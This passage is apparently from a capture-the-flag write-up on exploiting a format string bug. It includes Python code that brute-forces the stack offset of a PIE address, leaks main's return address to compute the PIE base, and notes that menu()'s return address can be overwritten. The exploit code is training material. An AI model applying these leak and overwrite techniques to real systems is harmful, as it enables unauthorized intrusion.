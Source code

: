 If you haven't already, you will want to patch out the lines in the loadHeader() function that run the intro animation. It won't affect the solvability, but it will get in the way of gdb.
With that in mind, stepping to the point just before where printf() calls our specifier, you will see that there are two addresses on the stack that start with 0x5. The first is our heap address, and the second (the return address) will point to main+34. We could manually get the format string offset, or you could use a function similar to this to leak every offset until the second instance of an address starting with 0x5 appears:

```
# Dynamically leak addresses until offset of PIE address
def find_PIE():
    count = 0
    for i in range(14,30):
        try:
            p = start()
            #
            # Find main
            #
            print(f"Trying index {i}:")
            p.recvuntil(b'>>> \n', timeout=2)
            p.sendline(bytes(f'%{i}$p', 'utf-8'))
            p.recvline()
            line = p.recvline(10)
            print(f"Result: {line}")
            if b"0x5" in line:   # We know its the second one ending in 0x5
                if count == 1:
                    print("LEAK:", line)
                    return i
                    break
                count += 1
            
            p.close()
        except:
            log.warn("Crash")
            p.close()
```

Once you find the offset is 23, you can format string leak the return address and get the PIE base:

```
offset = 23
p.recvuntil(b'>>> \n')
p.sendline(bytes(f'%{offset}$p', 'utf-8'))
# pause()
p.recvline()
leak = int(p.recvline().decode('utf-8').strip(), 16)-34        # This leak is of (main+34), so subtract 34
print("PIE leak: ", hex(leak))
print("PIE base: ", hex(leak - e.sym['main']))

e.address = leak - e.sym['main']
```

Now we can get to work.
So far we addressed two things:
1. We can overwrite the return address of menu() with any address we want (and bypass PIE)
2. We can overwrite the return address of menu() stored on the heap

